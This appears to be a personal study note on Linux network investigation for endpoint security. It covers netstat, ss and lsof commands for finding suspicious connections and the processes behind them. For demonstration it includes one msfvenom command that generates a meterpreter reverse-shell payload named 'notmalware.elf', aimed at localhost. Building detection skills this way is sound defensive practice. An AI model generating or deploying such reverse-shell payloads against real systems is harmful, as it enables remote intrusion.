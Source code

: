 ```yaml
---
tags: 
date-created: 2025-01-29
dg-publish: true
---
```

[[Endpoint Security MOC]]

- Common choice for servers.

Demonstrations:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o notmalware.elf
```
### Investigations
---

```bash
netstat -tnp
```

- `-t` tcp only
- `-n` don't resolve
- `-p` provides PID and binary name.

![[Linux Network Analysis.png]]
**More modern than netstat**

```bash
ss -tnp
```

Show src/dst address:

```bash
sudo ss src 127.0.0.1
```

- `dport` and `sport` for ports

**Show information about files opened by processes** great for network connection that are associated with files:

```bash
sudo lsof -i -P -n
```

- `-i` list out all established, listening network connection including opened by files

![[Linux Network Analysis-1.png]]
**See more about the interesting process using it's PID**

```bash
sudo lsof -p 3610
```

![[Linux Network Analysis-2.png]]
